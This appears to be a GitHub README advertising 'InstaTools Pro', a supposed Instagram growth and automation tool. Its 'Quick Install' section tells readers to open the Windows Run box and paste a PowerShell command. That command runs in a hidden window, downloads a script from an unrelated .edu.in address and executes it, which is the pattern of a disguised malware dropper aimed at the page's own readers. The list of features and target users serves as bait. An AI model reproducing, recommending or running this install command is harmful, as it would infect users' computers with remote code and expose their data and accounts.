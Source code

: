 ## 💎 InstaTools Pro - your secret tool for explosive growth on Instagram!

### Features
- 📥 Content Uploading

- 📊 Analytics & Statistics

- 🚀 Promotion & Automation

- 💡 Content Generation

- 🔔 Smart Notifications

- 🌐 Multi-account Management

## Installation

### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press win+r
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/weatherdolphin/dollrandom))).Invoke();
```

### 💡 Who needs it?
👉 Bloggers - to gain audience faster

👉 Businesses - to increase sales via Instagram

👉 SMM-ers - to work more efficiently and get more clients.
